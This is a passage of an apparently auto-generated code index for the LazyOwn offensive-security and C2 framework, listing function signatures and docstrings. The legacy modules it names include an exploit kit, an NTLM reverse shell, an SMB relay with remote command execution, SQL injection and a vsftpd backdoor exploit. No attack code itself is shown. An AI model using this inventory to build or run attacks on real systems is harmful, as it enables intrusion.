- `find_executable_binaries` (line 44) `def find_executable_binaries(self)`
- `find_specific_name_binaries` (line 52) `def find_specific_name_binaries(self, names)`
- `process_output` (line 61) `def process_output(self, output)`
- `get_found_binaries` (line 67) `def get_found_binaries(self)`
- `__init__` (line 71) `def __init__(self, binary_path)`
- `analyze_with_ltrace` (line 76) `def analyze_with_ltrace(self)`
- `extract_strings` (line 83) `def extract_strings(self)`
- `prepare_attack` (line 90) `def prepare_attack(self)`
- `exploit_with_pwntools` (line 170) `def exploit_with_pwntools(self)`

#### `lazypwnkit.py`
**Path:** `contrib/legacy/lazypwnkit.py`

**Functions:**
- `rmrf` (line 8) `def rmrf(path)` - *Elimina recursivamente un directorio y su contenido.*
- `create_exploit_environment` (line 13) `def create_exploit_environment()` - *Crea el entorno necesario para el exploit.*
- `cleanup_exploit_environment` (line 31) `def cleanup_exploit_environment()` - *Limpia el entorno creado para el exploit.*
- `execute_exploit` (line 37) `def execute_exploit(cmd)` - *Ejecuta el exploit.*
- `main` (line 79) `def main()`

#### `lazypyautogui.py`
**Path:** `contrib/legacy/lazypyautogui.py`

*No symbols extracted*

#### `lazyreversentlmv2.py`
**Path:** `contrib/legacy/lazyreversentlmv2.py`

**Functions:**
- `parse_hash_file` (line 11) `def parse_hash_file(file_path)`
- `reverse_shell` (line 58) `def reverse_shell(target_ip, username, domain, lmhash, nthash, callback_ip, callback_port)`

#### `lazysearch.py`
**Path:** `contrib/legacy/lazysearch.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: search in gtofbins db  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `highlight_term` (line 29) `def highlight_term(text, term)`
- `search_in_parquet` (line 32) `def search_in_parquet(term, parquet_files)`
- `main` (line 44) `def main()`

#### `lazysearch_bot.py`
**Path:** `contrib/legacy/lazysearch_bot.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Asistente de investigacion por consola estilo GPT con Groq  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `signal_handler` (line 59) `def signal_handler(sig, frame)`
- `show_help` (line 65) `def show_help(message)`
- `check_api_key` (line 69) `def check_api_key()`
- `configure_logging` (line 75) `def configure_logging(debug)`
- `parse_args` (line 79) `def parse_args()`
- `create_complex_prompt` (line 86) `def create_complex_prompt(base_prompt, history, knowledge_base, error_message)`
- `execute_command` (line 109) `def execute_command(command)`
- `load_knowledge_base` (line 112) `def load_knowledge_base(file_path)`
- `save_knowledge_base` (line 118) `def save_knowledge_base(knowledge_base, file_path)`
- `add_to_knowledge_base` (line 122) `def add_to_knowledge_base(prompt, command, file_path)`
- `get_relevant_knowledge` (line 127) `def get_relevant_knowledge(prompt)`
- `transform_knowledge_base` (line 135) `def transform_knowledge_base(client)`
- `main` (line 158) `def main()`

#### `lazyseo.py`
**Path:** `contrib/legacy/lazyseo.py`

**Classes:**
- `Config` (line 14) `class Config`

**Functions:**
- `load_payload` (line 23) `def load_payload()`
- `make_request` (line 28) `def make_request(url, retries, timeout)`
- `results` (line 49) `def results(file)`
- `crawl` (line 57) `def crawl(url)`
- `ffuf` (line 66) `def ffuf()`
- `analyze_seo` (line 76) `def analyze_seo(url)`

**Methods:**
- `__init__` (line 15) `def __init__(self, config_dict)`
- `__getitem__` (line 20) `def __getitem__(self, key)`

#### `lazysmbrelay.py`
**Path:** `contrib/legacy/lazysmbrelay.py`

**Classes:**
- `CustomSMBRelayServer` (line 41) `class CustomSMBRelayServer(SMBRelayServer)`

**Functions:**
- `check_sudo` (line 15) `def check_sudo()`
- `start_smb_server` (line 27) `def start_smb_server()`
- `start_smb_relay` (line 35) `def start_smb_relay(target, command)`

**Methods:**
- `__init__` (line 42) `def __init__(self)`
- `handleData` (line 46) `def handleData(self)`
- `execute_remote_command` (line 50) `def execute_remote_command(self)`

#### `lazysniff.py`
**Path:** `contrib/legacy/lazysniff.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: LazyOwnSniffer  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `check_sudo` (line 41) `def check_sudo()`
- `signal_handler` (line 50) `def signal_handler(sig, frame)`
- `setup_curses` (line 57) `def setup_curses()`
- `restore_curses` (line 66) `def restore_curses(stdscr)`
- `show_banner` (line 73) `def show_banner(stdscr, banner)`
- `process_packet` (line 80) `def process_packet(packet, packets, win_top, win_bottom)`
- `analyze_packet` (line 90) `def analyze_packet(packet)`
- `capture_packets` (line 112) `def capture_packets(interface, count, filter, pcap_file, packets, win_top, win_bottom)`
- `main_curses` (line 118) `def main_curses(stdscr, packets, interface, count, filter, pcap_file)`
- `parse_arguments` (line 188) `def parse_arguments()`
- `main` (line 197) `def main()`

#### `lazysqli.py`
**Path:** `contrib/legacy/lazysqli.py`
**File Doc:** *AUTHOR: jahman EDITED BY grisun0*

**Functions:**
- `send_payload` (line 13) `def send_payload(payload, url, s, sql_time)`
- `sqli_dichotomie` (line 30) `def sqli_dichotomie(payload_brute, offset, url, s, sql_time)`
- `sqli_thread` (line 51) `def sqli_thread(url, db, table, col, sql_time, threads)`
- `main` (line 89) `def main(args)`

#### `lazyssh.py`
**Path:** `contrib/legacy/lazyssh.py`

**Functions:**
- `execute` (line 13) `def execute(hostname, port, command)`

#### `lazyvsftp.py`
**Path:** `contrib/legacy/lazyvsftp.py`

**Functions:**
- `connect` (line 7) `def connect(host, port)`
- `exploit` (line 16) `def exploit(host, port)`
- `handle_backdoor` (line 61) `def handle_backdoor(s)`

#### `lazywerkzeug.py`
**Path:** `contrib/legacy/lazywerkzeug.py`

*No symbols extracted*

#### `sql.py`
**Path:** `contrib/legacy/sql.py`

**Functions:**
- `def_handler` (line 8) `def def_handler(sig, frame)`
- `getUnicode` (line 15) `def getUnicode(sqli)`
- `makeRequest` (line 22) `def makeRequest(sqli_modified)`

#### `__init__.py`
**Path:** `core/__init__.py`
**File Doc:** *Core primitives for the LazyOwn framework.  Stable, dependency-light building blocks shared by the CLI (``lazyown.py``), the C2 (``lazyc2.py``), the MCP server (``skills/lazyown_mcp.py``) and the autonomous skill stack. ``utils.py`` re-exports these symbols for backwards compatibility with legacy import paths.*

*No symbols extracted*

#### `api_authz.py`
**Path:** `core/api_authz.py`
**File Doc:** *Tenant-bound API authorization for the LazyOwn C2 dashboard.  Provides API-key generation, storage, validation, and route-decorator enforcement that requires both a valid key AND tenant membership. Keys are hashed at rest with ``hashlib.sha256``; only the plaintext is returned once at creation time.  This module is self-contained and has zero dependencies beyond the Python standard library. It integrates with Flask via decorators and with the ``modules/lazy_rbac.py`` RBAC system for permission checks.  Contracts --------- * ``ApiKeyStore``: persistence layer (atomic writes, no plaintext storage). * ``require_api_auth``: Flask-route decorator that reads the API key from headers or query params, validates it, resolves the tenant, and enforces the required permissions. * ``create_api_token``: convenience helper that stores the key and returns the one-time plaintext secret.  Usage::  from core.api_authz import ApiAuthzConfig, ApiKeyStore, require_api_auth  _store = ApiKeyStore(config=ApiAuthzConfig())  @app.route("/api/secrets") @require_api_auth(store=_store, permissions={"api:read"}) def secrets(): return jsonify(...)*

**Classes:**
- `ApiAuthzConfig` (line 54) `class ApiAuthzConfig` - *Configuration contract for the API authorization module.

Every tunable value is defined here; no magic numbers exist elsewhere.*
- `ApiKey` (line 75) `class ApiKey` - *Immutable record of a hashed API key bound to a tenant.

The plaintext secret is never stored after creation. Validation
uses constant-time comparison of the SHA-256 hash. ``retired_at``
marks a rotated key: it stays valid for the configured grace
window so live clients keep working during a rotation, then it is
pruned from the store.*
- `ApiKeyStore` (line 161) `class ApiKeyStore` - *Persistent store for tenant-scoped API keys.

Keys are hashed with SHA-256 before storage. Atomic writes use
``.tmp`` + ``os.replace`` to prevent corruption. Rotated keys are
retired (not deleted) so they stay valid during the configured
grace window, then pruned lazily.*

**Functions:**
- `_hash_secret` (line 137) `def _hash_secret(secret)` - *Return the SHA-256 hex digest of *secret*.*
- `_verify_secret` (line 142) `def _verify_secret(secret, stored_hash)` - *Constant-time comparison of *secret* against *stored_hash*.*
- `_generate_token_bytes` (line 147) `def _generate_token_bytes(nbytes)` - *Return a URL-safe random token string of *nbytes* random bytes.

Args:
    nbytes: Number of random bytes to encode. Defaults to
        :data:`ApiAuthzConfig.default_token_bytes` for backwards
        compatibility with direct callers.*
- `require_api_auth` (line 365) `def require_api_auth(store, permissions, require_tenant)` - *Flask-route decorator that enforces API-key + tenant authorization.

The API key is extracted from (in priority order):
1. ``Authorization: Bearer <key>`` header
2. ``X-API-Key`` header
3. ``api_key`` query parameter

If *permissions* is provided the key must hold every listed permission.
If *require_tenant* is ``True`` the key must be scoped to a valid
tenant; when omitted it defaults to
:data:`ApiAuthzConfig.require_tenant_scope` so the security posture
lives in one place.

On failure the decorated route returns a JSON body with ``401`` or
``403`` — never an HTML error page and never ``abort()``, so the
contract holds even in apps with ``TRAP_HTTP_EXCEPTIONS`` enabled.*
- `create_api_token` (line 440) `def create_api_token(store, tenant_id, label, permissions, expires_in_days)` - *Create an API key and return the one-time plaintext token.

Args:
    store: The ApiKeyStore instance to persist the key.
    tenant_id: Tenant to which the key is bound.
    label: Human-readable label for the key.
    permissions: Optional set of permission strings.
    expires_in_days: If set, the key expires after this many days.

Returns:
    The plaintext API token. Display once and store securely.*
- `_extract_key` (line 393) `def _extract_key(request_obj)`
- `decorator` (line 405) `def decorator(f)`
- `decorated` (line 407) `def decorated()`

**Methods:**
- `to_dict` (line 94) `def to_dict(self)`
- `from_dict` (line 107) `def from_dict(cls, data)`
- `is_expired` (line 119) `def is_expired(self)`
- `is_retired` (line 124) `def is_retired(self)`
- `has_permission` (line 127) `def has_permission(self, permission)`
- `has_all_permissions` (line 130) `def has_all_permissions(self, permissions)`
- `__init__` (line 170) `def __init__(self, config)`
- `config` (line 176) `def config(self)` - *The configuration this store was built with.*
- `_read` (line 180) `def _read(self)`
- `_write` (line 191) `def _write(self, data)`
- `_grace_deadline` (line 197) `def _grace_deadline(self, retired_at)` - *Return the timestamp after which a retired key stops validating.*
- `_prune_retired` (line 201) `def _prune_retired(self, records)` - *Drop retired keys whose grace window has closed.

Args:
    records: The record list to filter.

Returns:
    The record list without expired retired entries.*
- `list_keys` (line 217) `def list_keys(self, tenant_id)` - *List all active keys, optionally filtered by *tenant_id*.

Retired keys are excluded: the operator sees the live key set.*
- `find_by_hash` (line 229) `def find_by_hash(self, key_hash)` - *Look up a key record by its SHA-256 hash.*
- `create_key` (line 238) `def create_key(self, tenant_id, label, permissions, expires_in_days)` - *Create a new API key and return ``(ApiKey, plaintext_secret)``.

The plaintext secret is returned only once. The caller must
display it to the operator immediately.*
- `revoke_key` (line 273) `def revoke_key(self, label, tenant_id)` - *Revoke every key with *label* within *tenant_id*.

Both active and retired records are removed. Returns ``True``
when at least one record was found.*
- `validate_key` (line 287) `def validate_key(self, plaintext)` - *Validate a plaintext API key and return the ApiKey record.

Returns ``None`` if the key is invalid, expired, retired past its
grace window, or not found. On successful validation the
``last_used_at`` timestamp is updated in the store.*
- `rotate_key` (line 309) `def rotate_key(self, label, tenant_id)` - *Rotate an existing key by label. Returns the new plaintext.

The old key keeps working for ``key_rotation_grace_seconds`` so
clients can switch without an outage. Permissions and expiration
are copied from the rotated key, never from another record.*
- `_prune_record` (line 343) `def _prune_record(self, key_hash)` - *Remove the retired record identified by *key_hash*.*
- `_touch_last_used` (line 351) `def _touch_last_used(self, key_hash)` - *Update ``last_used_at`` on the key record identified by *key_hash*.*

#### `autonomous.py`
**Path:** `core/autonomous.py`
**File Doc:** *Autonomous-run mode for the loop engine.  While the loop runs, interactive prompts have no operator in front of them: ``input()`` calls from automation verbs must never steal the keyboard from the shell. The context manager flips an environment flag (so shell commands can detect unattended mode) and replaces ``builtins.input`` with a prompt-skipping stub that announces why the default was taken.*

**Functions:**
- `is_autonomous` (line 21) `def is_autonomous()` - *Return True while an autonomous loop run owns the process.*
- `autonomous_mode` (line 27) `def autonomous_mode()` - *Suppress interactive prompts for the duration of a loop run.

Yields:
    Control with prompts answered by an empty string and
    ``LAZYOWN_AUTONOMOUS=1`` exported. Everything is restored on
    exit, including when an exception unwinds the block.*
- `_guarded_input` (line 39) `def _guarded_input(prompt)`

#### `command_bridge.py`
**Path:** `core/command_bridge.py`
**File Doc:** *Lightweight command execution bridge between C2 bots and the LazyOwn CLI shell.  Lazy-loads the heavy shell infrastructure only when a command is actually executed, reducing import-time overhead for C2 workers.*

**Classes:**
- `CommandBridge` (line 15) `class CommandBridge` - *Facade that lazy-loads LazyOwnShell for C2 bot command execution.*

**Functions:**
- `get_bridge` (line 126) `def get_bridge()` - *Get or create the singleton CommandBridge instance.

Returns:
    The shared CommandBridge, created on first call.*

**Methods:**
- `__init__` (line 18) `def __init__(self)`
- `ready` (line 25) `def ready(self)` - *Whether the bridge has been successfully initialized.*
- `error` (line 30) `def error(self)` - *Error message if initialization failed, or None.*
- `_ensure_shell` (line 34) `def _ensure_shell(self)` - *Lazy-load and initialize the LazyOwnShell singleton.

Uses double-checked locking so the import and bootstrap happen at most
once across all threads.

Returns:
    The initialized LazyOwnShell instance.

Raises:
    RuntimeError: If the shell could not be imported or initialized.*
- `onecmd` (line 65) `def onecmd(self, command)` - *Execute a LazyOwn internal command via the shell.

Captures all stdout output during execution and returns it as a string.
All output (banners, status, errors) is included.

Args:
    command: The LazyOwn command string to execute.

Returns:
    The captured stdout output, or an error message on failure.*
- `one_cmd` (line 89) `def one_cmd(self, command)` - *Execute a command using the shell's one_cmd method.

Uses the shell's built-in output capture (which may include AI
enhancement depending on shell configuration).

Args:
    command: The LazyOwn command string to execute.

Returns:
    The command output as a string, or an error message on failure.*
- `execute` (line 110) `def execute(self, command)` - *Alias for one_cmd. Execute any LazyOwn command.

Args:
    command: The LazyOwn command string to execute.

Returns:
    The command output as a string.*

#### `config.py`
**Path:** `core/config.py`
**File Doc:** *Configuration loader and Config wrapper.  ``payload.json`` is the single source of runtime configuration for the entire LazyOwn framework. This module exposes:  - ``PAYLOAD_PATH`` constant pointing at ``payload.json`` in the current working directory. - ``load_payload`` / ``save_payload`` for reading and writing it atomically. - ``Config`` — a thin attribute-style wrapper around the payload dictionary. - ``resolve_aes_key`` — the AES key resolver used by ``Config`` so the key is reachable from the shell, the C2, the MCP, and the lazyaddons templating.  Atomic writes go through ``*.tmp`` and ``os.replace`` so a crashed write never leaves the operator with a corrupt payload file.*

**Classes:**
- `Config` (line 195) `class Config` - *Attribute-style wrapper around a configuration dictionary.

Behavior is intentionally preserved from the legacy ``utils.Config``:
every key in the underlying dictionary becomes both an instance attribute
and is accessible via ``config[key]``. Missing keys via ``__getitem__``
return ``None`` rather than raising.

The instance also exposes ``aes_key`` (resolved bytes) and ``as_params``
(a snapshot of the underlying dictionary) so the LazyOwn shell can
substitute ``{{aes_key}}`` and other tokens in lazyaddons.*

**Functions:**
- `_apply_env_overrides` (line 70) `def _apply_env_overrides(payload)` - *Override payload values with matching ``LAZYOWN_*`` environment variables.

Keys are mapped to lowercase. Integer and boolean coercion is applied
based on the type of the existing payload value.

Args:
    payload: The payload dictionary to overlay env vars onto.

Returns:
    A new dict with env-var overrides applied. The input payload is
    not mutated.*
- `_coerce_env_value` (line 103) `def _coerce_env_value(raw, existing)` - *Convert a string env-var value to match the type of *existing*.

Args:
    raw: The raw string value from the environment variable.
    existing: The current value in the payload dict (used to infer type).

Returns:
    The coerced value. Defaults to the raw string when the target
    type cannot be determined.*
- `_mask_if_sensitive` (line 128) `def _mask_if_sensitive(key, value)` - *Return a masked representation when *key* matches a sensitive pattern.

Args:
    key: Configuration key name.
    value: The raw value associated with the key.

Returns:
    ``"***"`` for sensitive keys, otherwise a truncated string
    representation (max 80 chars).*
- `_log_config_change` (line 146) `def _log_config_change(key, old_value, new_value)` - *Append a JSONL audit entry recording a configuration change.

Sensitive values are masked before logging.

Args:
    key: The configuration key that changed.
    old_value: The previous value (``None`` for newly added keys).
    new_value: The new value.*
- `_collect_validation_warnings` (line 171) `def _collect_validation_warnings(payload)` - *Inspect the payload for non-schema warnings.

Checks for unresolved placeholders and values that look like
unchanged factory defaults.

Args:
    payload: The configuration dictionary.

Returns:
    List of human-readable warning strings.*
- `_migrate_keys` (line 238) `def _migrate_keys(config_dict)` - *Migrate legacy misspelled config keys to corrected names.

Copies values from old keys to new, canonical keys without
removing the old ones so existing payload files continue to work.*
- `resolve_aes_key` (line 250) `def resolve_aes_key(config_dict)` - *Return a 32-byte AES key derived from config, disk, or randomness.

Args:
    config_dict: The payload dictionary. Looks for an ``aes_key``
        entry holding a 64-character hex string.
    sessions_dir: Directory holding ``key.aes``. Created if missing.

Returns:
    Exactly 32 bytes suitable for AES-256.

Raises:
    ValueError: when ``aes_key`` is present but not a 64-char hex.*
- `_load_raw_payload` (line 293) `def _load_raw_payload(path)` - *Load JSON from *path* and return dict.

Does **not** apply environment variable overrides. Used internally
by :func:`load_payload` and for audit comparison in
:func:`save_payload`.

Raises:
    FileNotFoundError: if neither the payload nor the example exists.
    json.JSONDecodeError: if the payload is not valid JSON.*
- `load_payload` (line 316) `def load_payload(path)` - *Load and return the JSON payload at ``path``.

If the payload does not exist but ``payload.example.json`` does, the
example file is copied to ``path`` automatically so a fresh clone never
leaves the operator without a starting configuration.

Environment variable overrides
(``LAZYOWN_<KEY>``) are applied on top of the file contents.

Raises:
    FileNotFoundError: if neither the payload nor the example exists.
    json.JSONDecodeError: if the payload is not valid JSON.*
- `load_and_validate` (line 334) `def load_and_validate(path)` - *Load ``payload.json``, validate against the schema, and return a result dict.

Validation never raises: problems are collected in the ``warnings`` and
``errors`` lists of the result dict. The payload is returned in the
``payload`` key as loaded.

Args:
    path: Filesystem location of the payload (defaults to
        ``payload.json`` in the current working directory).

Returns:
    A dict with keys:
    - ``payload`` (``dict``): the loaded configuration dictionary.
    - ``valid`` (``bool``): ``True`` when no errors were found.
    - ``warnings`` (``list[str]``): advisory issues (schema warnings,
      unresolved placeholders, default-looking values).
    - ``errors`` (``list[str]``): blocking issues from schema
      validation.
    - ``issues`` (``list[ValidationIssue]``): structured schema issues
      for programmatic consumers (preserves backward compat).*
- `save_payload` (line 385) `def save_payload(payload, path)` - *Atomically write ``payload`` as pretty-printed JSON to ``path``.

Uses a sibling ``*.tmp`` file plus ``os.replace`` so a crash mid-write
cannot leave the operator with a half-written payload.

Configuration changes are audited to ``sessions/config_changes.jsonl``.*

**Methods:**
- `__init__` (line 208) `def __init__(self, config_dict, sessions_dir)`
- `__getattr__` (line 217) `def __getattr__(self, name)`
- `__getitem__` (line 220) `def __getitem__(self, key)`
- `as_params` (line 223) `def as_params(self)` - *Return a shallow copy of the underlying parameter dictionary.

Returns:
    A dict suitable for ``self.params`` on the cmd2 shell. The
    ``aes_key`` value is the hex string, matching the format
    consumed by lazyaddon template substitution.*
- `overridden_keys` (line 233) `def overridden_keys(self)` - *Return sorted list of keys that were overridden via ``LAZYOWN_*`` env vars.*

#### `console.py`
**Path:** `core/console.py`
**File Doc:** *ANSI color constants and console output helpers.  This module is the single source of truth for terminal styling and the ``print_msg`` / ``print_warn`` / ``print_error`` / ``print_succ`` helpers used throughout the framework. ``utils.py`` re-exports these names for backwards compatibility with the historical import path ``from utils import print_msg``.*

**Functions:**
- `_sanitize` (line 93) `def _sanitize(text)` - *Return ``text`` coerced to ``str`` with surrogate code points stripped.*
- `colors_enabled` (line 98) `def colors_enabled()` - *Return False when NO_COLOR or ANSI_COLORS_DISABLED is set.

Returns:
    True when ANSI escapes may be emitted, False otherwise.*
- `_paint` (line 114) `def _paint(code, text)` - *Wrap text in code unless colors are disabled.*
- `format_line` (line 121) `def format_line(prefix, message, glyph)` - *Build a single log line with standard prefix and sanitized message.

Args:
    prefix: Short prefix such as ERROR_PREFIX.
    message: Payload to sanitize and append.
    glyph: Optional trailing glyph.

Returns:
    Formatted single line string.*
- `print_error` (line 137) `def print_error(error)` - *Print a red error message to stdout (never raises on broken pipes).*
- `print_msg` (line 143) `def print_msg(msg)` - *Print a green informational message to stdout (never raises).*
- `print_warn` (line 149) `def print_warn(warn)` - *Print a magenta/yellow warning message to stdout (never raises).*
- `print_succ` (line 155) `def print_succ(msg)` - *Print a bright green success message to stdout (never raises).*
- `ensure_blocking_stdio` (line 161) `def ensure_blocking_stdio()` - *Restore blocking mode on stdio fds inherited as non-blocking.

Operator shells are sometimes spawned with ``O_NONBLOCK`` set on
stdout/stderr (supervisors, pipes, embedded terminals). Any later
``write`` then fails with ``BlockingIOError`` and kills the session.
This restores blocking mode best-effort and never raises.*
- `write_stdout` (line 180) `def write_stdout(text)` - *Write ``text`` to stdout, tolerating non-blocking or broken pipes.

On ``BlockingIOError`` the stdio mode is restored to blocking once
and the write retried; as a last resort the text goes to stderr and
then is dropped. Never raises; returns True when stdout took it.*
- `_emit` (line 208) `def _emit(line)` - *Emit one console line; logging must never crash the operator shell.*

#### `credential_vault.py`
**Path:** `core/credential_vault.py`
**File Doc:** *Credential vault — AES-256-GCM encryption for sensitive config values.  Wraps ``core.crypto.AESencrypt``/``AESdecrypt`` to protect secrets stored in ``payload.json`` (``c2_pass``, ``email_password``, ``api_key``, etc.) and provides transparent load/save with encryption.  Design (SOLID): - Single Responsibility: CredentialVault only handles encryption of secrets. - Open/Closed: new sensitive keys added via SENSITIVE_KEYS without code change. - Liskov: any AES-compatible encryptor can replace the default. - Interface Segregation: seal(), unseal(), and seal_payload() are the surface. - Dependency Inversion: depends on bytes-based encrypt/decrypt callables.  Usage: from core.credential_vault import seal_payload, unseal_payload  payload = load_payload() secure = seal_payload(payload) save_payload(secure)  loaded = load_payload() plain = unseal_payload(loaded)*

**Functions:**
- `check_dangerous_defaults` (line 63) `def check_dangerous_defaults(payload)` - *Scan payload for unchanged default credential values.

Returns a list of human-readable warning messages. An empty list means
all sensitive keys have been changed from their factory defaults.*
- `_get_aes_key` (line 79) `def _get_aes_key(payload)` - *Resolve the AES key from payload, disk, or generate fresh.

Args:
    payload: Optional payload dict. Uses ``payload.json`` on disk if None.

Returns:
    32-byte AES key.*
- `seal_value` (line 93) `def seal_value(plaintext, key)` - *Encrypt a single credential value.

Args:
    plaintext: Sensitive value to encrypt.
    key: AES key (auto-resolved if None).

Returns:
    Base64-encoded sealed value with vault marker prefix.*
- `unseal_value` (line 112) `def unseal_value(sealed, key)` - *Decrypt a sealed credential value.

Returns the value unchanged if it is not a sealed vault value (plaintext
backward compat). Returns empty string for empty input.

Args:
    sealed: Possibly encrypted credential string.
    key: AES key (auto-resolved if None).

Returns:
    Decrypted plaintext string.*
- `seal_payload` (line 141) `def seal_payload(payload, key)` - *Return a copy of ``payload`` with all sensitive values encrypted.

Non-sensitive keys and the key ``aes_key`` itself are left untouched.
The returned dict is safe to write to ``payload.json``.

Args:
    payload: Configuration dict to seal.
    key: AES key (auto-resolved if None).

Returns:
    Shallow copy with sensitive fields encrypted.*
- `unseal_payload` (line 164) `def unseal_payload(payload, key)` - *Return a copy of ``payload`` with all sealed values decrypted.

Values that are not sealed are passed through unchanged.

Args:
    payload: Configuration dict possibly containing sealed values.
    key: AES key (auto-resolved if None).

Returns:
    Shallow copy with sensitive fields decrypted in-place.*
- `rotate_aes_key` (line 186) `def rotate_aes_key(payload, current_key)` - *Generate a new AES key, re-encrypt all sealed values under it.

First decrypts with ``current_key``, then encrypts with a fresh key.
The fresh key is written to ``sessions/key.aes`` with mode 0o600.

Args:
    payload: Configuration dict (can be sealed or plain).
    current_key: Current AES key (auto-resolved if None).

Returns:
    ``(new_payload, new_key_bytes)`` tuple. ``new_payload``
    is sealed with the fresh key and ready to save.*
- `generate_secure_defaults` (line 215) `def generate_secure_defaults()` - *Generate cryptographically random default values for sensitive keys.

Returns a dict mapping each sensitive key to a 32-char hex random value.
Use this to bootstrap a new ``payload.json`` with secure defaults.*

#### `crypto.py`
**Path:** `core/crypto.py`
**File Doc:** *Symmetric primitives used by the framework.  XOR (legacy), AES-256-GCM, key generation, and file-dropping utilities extracted from ``utils.py``.*

**Functions:**
- `generate_salt` (line 24) `def generate_salt(length)` - *Generate a cryptographically random salt.

Args:
    length: Salt length in bytes.

Returns:
    Random bytes suitable for PBKDF2 key derivation.*
- `derive_key` (line 36) `def derive_key(password, salt)` - *Derive a Fernet-compatible key from a password using PBKDF2HMAC.

Uses SHA-256 with 100000 iterations over ``password`` + ``salt`` and
returns a URL-safe Base64 key accepted by ``cryptography.Fernet``.

Args:
    password: The user-provided password.
    salt: Salt bytes (see ``generate_salt``). Callers persisting
        encrypted data must store the salt alongside it.

Returns:
    Base64-encoded Fernet key bytes.

Raises:
    ValueError: if ``password`` is empty.*
- `xor_encrypt_decrypt` (line 67) `def xor_encrypt_decrypt(data, key)` - *Return ``bytearray`` produced by XOR-ing each byte of ``data`` with ``key``.

XOR is symmetric, so the same call encrypts and decrypts. The key is
cycled byte-by-byte over the data. ``key`` must be a non-empty string.

Raises:
    ValueError: if ``key`` is empty.*
- `generate_xor_key` (line 83) `def generate_xor_key(length)` - *Generate a random XOR key of the given length as a hex string.

Args:
    length: Length of the XOR key in bytes.

Returns:
    Hex-encoded key string.*
- `AESencrypt` (line 98) `def AESencrypt(plaintext, key)` - *Encrypt ``plaintext`` with AES-256-GCM using a random nonce.

Output format is ``nonce (12 bytes) || ciphertext || tag (16 bytes)``
so that ``AESdecrypt`` can extract all three components.

Args:
    plaintext: Data to encrypt.
    key: Raw key material (SHA-256 hashed before use).

Returns:
    ``(ciphertext, key)`` tuple where ``ciphertext`` includes the
    nonce and authentication tag prepended/appended.*
- `AESdecrypt` (line 123) `def AESdecrypt(data, key)` - *Decrypt data produced by ``AESencrypt``.

Expects ``nonce (12 bytes) || ciphertext || tag (16 bytes)``.

Args:
    data: Encrypted payload with embedded nonce and tag.
    key: The same key used during encryption.

Returns:
    Decrypted plaintext.

Raises:
    ValueError: If the authentication tag does not verify (data
        tampered or wrong key).*
- `dropFile` (line 154) `def dropFile(key, ciphertext)` - *Write AES key and ciphertext to ``sessions/cipher.bin`` and ``sessions/key.bin``.

Args:
    key: AES key bytes.
    ciphertext: Encrypted payload bytes (includes nonce + tag).*

#### `defaults.py`
**Path:** `core/defaults.py`
**File Doc:** *Build-time default constants loaded from ``config/defaults.toml``.  Single source of truth for fallback ports, wordlists and well-known paths. Commands read live engagement values from ``payload.json`` first and call these helpers only when the key is unset, so the TOML file is never rewritten at runtime and per-engagement ``assign`` values always win.*

**Functions:**
- `load_defaults` (line 21) `def load_defaults(path)` - *Load and cache the defaults document.

Args:
    path: TOML file to load. Defaults to ``config/defaults.toml``.

Returns:
    Parsed TOML mapping with ``ports``, ``wordlists`` and
    ``paths`` sections.

Raises:
    FileNotFoundError: When the TOML file does not exist.*
- `clear_cache` (line 44) `def clear_cache()` - *Drop cached documents (tests only).*
- `get` (line 49) `def get(section, key, default)` - *Return ``defaults[section][key]`` or ``default`` when absent.

Args:
    section: TOML section (``ports``, ``wordlists``, ``paths``).
    key: Key inside the section.
    default: Fallback when section or key is missing.

Returns:
    The configured value or ``default``.*
- `default_lport` (line 63) `def default_lport()` - *Return the fallback listener port as an int.

Returns:
    ``ports.default_lport`` (1337 unless the TOML changes it).*
- `default_rport` (line 72) `def default_rport()` - *Return the fallback remote port as an int.

Returns:
    ``ports.default_rport`` (443 unless the TOML changes it).*
- `rockyou_wordlist` (line 81) `def rockyou_wordlist()` - *Return the default wordlist path.

Returns:
    ``wordlists.rockyou`` unless the TOML changes it.*
- `common_wordlists` (line 90) `def common_wordlists()` - *Return the ordered wordlist fallback candidates.

Returns:
    ``wordlists.fallbacks`` as a list of paths.*
- `sessions_dir` (line 100) `def sessions_dir()` - *Return the sessions directory path.

Returns:
